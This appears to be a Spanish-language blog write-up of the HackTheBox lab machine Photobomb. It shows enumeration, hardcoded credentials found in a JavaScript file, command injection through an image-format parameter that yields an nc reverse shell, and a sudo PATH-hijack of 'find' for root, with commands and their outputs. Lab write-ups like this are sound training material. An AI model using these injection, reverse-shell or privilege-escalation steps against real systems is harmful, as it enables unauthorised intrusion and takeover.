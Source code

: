 ```yaml
---
title: Writeup Photobomb
author: L4nder
date: 2023-02-12
img_path: /assets/img/HTB/photobomb
categories: [HackTheBox, Writeup, Easy]
tags: [HackTheBox, Writeup, Linux, Easy, RCE, Path Hijacking]
image:
  path: photobomb.png
  alt: Photobomb
---
```


Bueeeno, el dia de hoy nos haremos una maquina de dificultad **FACIL**!, de hecho, fue mi primera máquina activa que hice xD, le tengo nostalgia a la máquina.

Bueno, en esta máquina tocaremos los siguientes puntos:
- Virtual Hosting
- Code Injection (RCE)
- Y un Path Hijacking para la escalada de privilegios!

## Enumeración

Primero vamos a comprobar que la máquina esté encendida con una traza ICMP (ping).

```plaintext
❯ ping -c 1 10.10.11.182
PING 10.10.11.182 (10.10.11.182) 56(84) bytes of data.
64 bytes from 10.10.11.182: icmp_seq=1 ttl=63 time=34.4 ms

--- 10.10.11.182 ping statistics --- 
1 packet transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 36.212/36.212/36.212/0.000 ms
```

En el output del comando podemos ver el parámetro `ttl`, el cual indica que es equivalente a `63`, nos podemos guiar del siguiente esquema para diferenciar a que sistema operativo nos estamos enfrentando.

```plaintext
TTL(64) -> GNU/Linux
TTL(128) -> Windows
```

En nuestro caso, el TTL se aproxima a 64, pero sin serlo, esto pasa porque en plataformas como HackTheBox o TryHackMe la traza ICMP pasa por un nodo intermediario, el cual le resta 1 punto al TTL.

Bueno, como en todas las máquinas, tendremos que comenzar escaneando todos los puertos, primeramente escanearemos TCP.

```plaintext
❯ nmap 10.10.11.182
Nmap scan report for photobomb.htb (10.10.11.182)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
```

Al hacer un curl a la web y fijarnos en las cabeceras, podemos observar que nos redirige a `photobomb.htb`, este termino se le conoce como **VIRTUAL HOSTING**, ya que en este caso no podemos acceder a la web por la IP.

```plaintext
❯ curl -s 10.10.11.182 -I | grep "Location"
Location: http://photobomb.htb/
```

Bueno, tendremos que añadir el dominio `photobomb.htb` al /etc/hosts

```plaintext
❯ echo "10.10.11.182 photoboomb.htb" | sudo tee -a /etc/hosts
```

Si nos fijamos en el código fuente encontramos un archivo .js con el siguiente contenido

```shell
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Si nos fijamos bien, encontramos la url `http://pH0t0:b0Mb!@photobomb.htb/printer`, al abrirla nos autentica automaticamente, y podemos ver lo siguiente

<img src="Web1.png">

En la parte de abajo podemos descargar las imagenes en formato png y jpg.

<img src="descargar.png">

## Explotación

Interceptando la petición podemos observar que para elegir el formato de la imagen se puede cambiar aquí.

<img src="burp.png">

Nos podemos imaginar que la web usa un binario para la conversión del formato de la imagen, si este es el caso, podemos concatenarle un comando.

Así que crearemos una reverse shell con nc y mkfifo en [Reverse Shells](https://revshells.com), recordad que esta ha de ser url encodeada.

<img src="rev.png">
<img src="rev2.png">

Para poner el cmoando despues del png ponemos un `;` y nuestro oneliner

<img src="burprev.png">

Al darle a forward recibimos la shell y conseguimos la primera flag!

```plaintext
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.182] 44954
wizard@photobomb:~/photobomb$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$ hostname -I
hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
wizard@photobomb:~/photobomb$ cat ../user
cat ../user.txt
638**************************393
wizard@photobomb:~/photobomb$
```

## Escalada de Privilegios

Al mirar los privilegios que tenemos, observamos que podemos ejecutar un script, pero además tenemos la capacidad de setear variables de entorno

```plaintext
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
(root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~$
```

Mirando el script podemos ver que usa find de manera relativa y no con su ruta absoluta.

```plaintext
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
/bin/cat log/photobomb.log > log/photobomb.log.old
/usr/bin/truncate -s0 log/photobomb.log
fi
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~$
```

Nos podemos aprovechar de nuestro privilegio de poder setear variables de entorno como el path para que nos ejecute el coamndo find personalizado, y bajo el contexto de root nuestro comando find personalizado se ejecutará como root

Para esto tendremos que crear un archivo find que tenga bash en su interior y le daremos permisos de ejecución.

```plaintext
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
wizard@photobomb:~$
```

Ahora cambiamos la variable path y ejecutamos el script, consiguiendo una consola como root

```plaintext
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
0ad**************************058
root@photobomb:/home/wizard/photobomb#
```

Bueno, este ha sido mi primer writeup! Espero que os haya gustado!